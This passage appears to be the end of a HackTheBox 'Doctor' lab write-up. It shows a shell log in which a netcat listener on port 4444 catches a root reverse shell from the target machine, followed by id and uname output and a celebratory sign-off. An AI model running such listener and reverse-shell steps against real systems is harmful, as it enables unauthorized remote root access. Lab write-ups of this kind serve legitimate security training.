 ```shell
kali@kali:~/Documents/HackTheBox/doctor$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.209] 54856
bash: cannot set terminal process group (1134): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id && uname -a 
id && uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux doctor 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@doctor:/#
```
GG!

🤘💀🤘
